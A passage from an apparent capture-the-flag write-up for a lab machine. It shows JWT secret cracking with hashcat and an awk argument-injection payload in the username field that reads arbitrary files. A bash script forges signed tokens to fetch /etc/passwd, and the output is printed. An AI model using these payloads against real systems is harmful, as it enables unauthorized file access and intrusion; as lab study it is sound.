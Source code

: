 Based on the algorithm, it looks like we can attempt to crack JWT with hashcat, using mode 16500 for `JWT (JSON Web Token)`.  As always, I start with `rockyou.txt`:

```bash
$hashcat -m 16500 -a 0 jwt_token.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.1.1) starting...

INFO: All hashes found in potfile! Use --show to display them.

Started: Fri Feb  3 21:04:26 2023
Stopped: Fri Feb  3 21:04:26 2023
┌─[zara@supernova]─[~/hat-valley]
└──╼ $hashcat -m 16500 -a 0 jwt_token.txt --show /usr/share/wordlists/rockyou.txt 
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjc1NDE3NzcyfQ.O66uNpvfZtH5Ifi8Cdvc8VssC_zK55fN-aA8nMJcbFc:123beany123

```

So, the TOKEN_SECRET is `123beany123`.

I played around with a basic replication of the above express endpoint locally, and worked out we can escape awk and do basic Local File Inclusion with a custom username. E.g.:

```
/' /etc/passwd '/
```

This will result in the following -- showing us all lines of `/etc/passwd` or any file the web server's user account has permission to read, rather than the expected CSV file:

```bash
awk '//' /etc/passwd '//' /var/www/private/leave_requests.csv
```

I ran this LFI against a couple of files which didn't lead anywhere.  At this point, suspecting more enumeration across files was required, I decided to write a script taking any filename as an argument to simplify things -- then testing this script for `/etc/passwd`, injecting this path into the username of the encoded JWT, which gave the following results:

```bash
$cat lfi.sh 
#!/usr/bin/env bash

JSON_PAYLOAD=$(cat << EOF
{"username": "/' ${1} '/"}
EOF
)

JWT=$(jwt encode --secret 123beany123 "$JSON_PAYLOAD")

echo "Sending JWT with curl request: ${JWT}"
curl 'http://hat-valley.htb/api/all-leave' -H "Cookie: token=${JWT}"

$./lfi.sh /etc/passwd
Sending JWT with curl request: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NzU0OTU1MDAsInVzZXJuYW1lIjoiLycgL2V0Yy9wYXNzd2QgJy8ifQ.j3fsA9EF4hIRr9Rdt2xlJkJ99yDPT4400lJu4lZWFnQ
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```